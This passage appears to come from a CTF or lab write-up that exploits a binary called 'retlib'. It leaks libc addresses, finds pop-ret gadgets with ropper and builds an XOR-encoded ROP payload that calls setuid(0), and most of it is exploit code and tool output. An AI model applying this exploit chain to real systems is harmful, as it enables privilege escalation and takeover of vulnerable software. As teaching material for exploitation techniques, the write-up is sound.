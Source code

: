 First, we leak the `puts` libc address as per task 1 and calculate a few more
important function addresses that we need for the entire task.

```python
    # Calculate the required libc functions
    libc_base = puts_libc - offset_puts
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    setuid_addr = libc_base + offset_setuid
    exit_addr = libc_base + offset_exit
    read_addr = libc_base + offset_read
    writable_addr = libc_base + offset_writable

    log.info("libc base: 0x%x" % libc_base)
    log.info("system@libc: 0x%x" % system_addr)
    log.info("setuid@libc: 0x%x" % setuid_addr)
    log.info("exit@libc: 0x%x" % exit_addr)
    log.info("read@libc: 0x%x" % read_addr)
    log.info("writable address in libc: 0x%x" % writable_addr)
```

## Pop Ret ROP Gadgets

Next, we need Pop Ret gadgets, a class of ROP gadgets that aid with ROP chains
that use functions with multiple arguments. The gadgets pop values off the stack
to move the stack pointer in the right position to the next fake stack frame.

To do this, the `ropper` binary can be used to search for these addresses:

```shell
$ ropper --file retlib --search "pop %"
[INFO] Load gadgets from cache
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop %

[INFO] File: retlib
0x08048441: pop ds; add eax, edx; sar eax, 1; jne 0x449; ret;
0x080485ef: pop ebp; ret;
0x080485ec: pop ebx; pop esi; pop edi; pop ebp; ret;
0x0804834d: pop ebx; ret;
0x080485ee: pop edi; pop ebp; ret;
0x080485ed: pop esi; pop edi; pop ebp; ret;
```

We need a `pop ret` gadget and a `pop pop pop ret` gadget. Thus, we pick
`0x0804834d` and `0x080485ed`.

## Setting the User ID

We split up the actions we have to take into multiple stages. The ROP chain to
call `setuid(0)` is as follows:

```python
    # Create the rop chain for stage 2
    rop2  = p32(setuid_addr)
    rop2 += p32(popret)
    rop2 += p32(0)
    rop2 += p32(main_addr)

    # Create and encode the payload for stage 2
    payload2 = "A"*24 + rop2
    payload2 = payload2.ljust(52, "\x90")
    payload2 = xor(payload2, 0xbe)

    # Launch the second stage of the attack
    comm.write(payload2)
```